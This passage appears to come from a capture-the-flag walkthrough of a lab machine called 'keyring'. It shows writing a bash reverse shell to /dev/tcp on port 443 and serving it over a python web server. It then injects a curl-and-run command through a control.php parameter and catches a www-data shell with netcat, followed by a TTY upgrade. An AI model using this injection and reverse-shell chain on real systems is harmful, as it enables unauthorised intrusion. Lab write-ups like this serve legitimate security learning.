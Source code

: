 The **system** function is enable for the **admin** user.

![](/assets/images/keyring/screenshot-15.png)

Write a bash reverse shell to a file.

```console
root@kali:/keyring# echo 'bash -c "bash -i >& /dev/tcp/172.16.71.1/443 0>&1"' > rshell
```

Set up a web server with python.

```console
root@kali:/keyring# python3 -m http.server
```

Start a netcat listener and execute the following instruction:

`http://172.16.71.128/control.php?cmdcntr=curl%20172.16.71.1:8000/rshell%20-o%20/tmp/z;%20sh%20/tmp/z`

![](/assets/images/keyring/screenshot-16.png)

Upgrading to a full TTY shell.

```console
root@kali:/keyring# nc -vlnp 443
listening on [any] 443 ...
connect to [172.16.71.1] from (UNKNOWN) [172.16.71.128] 51486
bash: cannot set terminal process group (792): Inappropriate ioctl for device
bash: no job control in this shell
www-data@keyring:/var/www/html$ python3 -c 'import pty; pty.spawn("/bin/bash")'
<ml$ python3 -c 'import pty; pty.spawn("/bin/bash")'
www-data@keyring:/var/www/html$ ^Z
zsh: suspended  nc -vlnp 443
root@kali:/keyring# stty raw -echo;fg
[1]  + continued  nc -vlnp 443

www-data@keyring:/var/www/html$
```
